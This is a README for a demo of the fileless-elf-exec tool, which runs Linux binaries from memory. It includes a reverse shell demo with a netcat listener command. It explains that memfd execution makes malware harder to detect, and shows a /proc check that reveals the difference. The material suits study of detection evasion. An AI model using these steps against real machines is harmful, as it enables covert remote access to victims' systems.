 # fee_demo
- Demonstration of tool `fileless-elf-exec` (https://github.com/nnsee/fileless-elf-exec)
- Code for shell taken from https://gist.github.com/magisterquis/ce8b99b42188f4517efb3e1038a483de
- [Video demo](https://youtu.be/hi2bJ6eiw8o)

### Usage
- Tutorial for usage on fedora Linux, if you are using different distribution, install corresponding packages defined in `install.sh` for your distribution
- Install golang and fee: `bash install.sh`
- Compile countdown code: `bash compile_odb.sh`
- Compile shell code: `bash compile_shell.sh`
- Start countdown executable "normaly": `./odbrojavanje/odbrojavanje`
- Start countdown executable with `fee`: `python fee_odb.py`
- Start shell executable "normaly": `./shell/demoshell`
- Start shell executable with `fee`: `python fee_shell.py`
- The scripts for compilation (`compile_shell.sh` and `compile_odb.sh`) are configured for amd64 arhitecture, if you are using different arhitecture try removing (or changing to your arhitecture) `--target` flag in 5th line
  
### Shell demo
- After starting the program, in the second terminal execute the following command: `rlwrap -S "$(printf '\033[95mds>\033[m ')" nc -nvlp 4444`
- You should enter the interactive shell in which you can execute any command
- The point of the attack is to execute demoshell on victim's computer and configure it to send a callback to attacker's computer
- In this scenario, victim and attacker are on the same host for simplicity
- When executed with `fee` (i.e. without using reading source file from disk) it is harder to trace and detect the malware (in this case demoshell)
### Difference
- After starting the program, exeute `ps aux | grep <program_name>` where `<program_name>` is either `'demoshell'` or `'odbrojavanje'` and find PID of the process
- Execute `ls -l /proc/<PID>/exe`
- If you executed program "normally" you should be able to see link to your executable file, while if you executed fee script, you should see something like `'/memfd: (deleted)'`, i.e. you won't be able to see link to the executable 
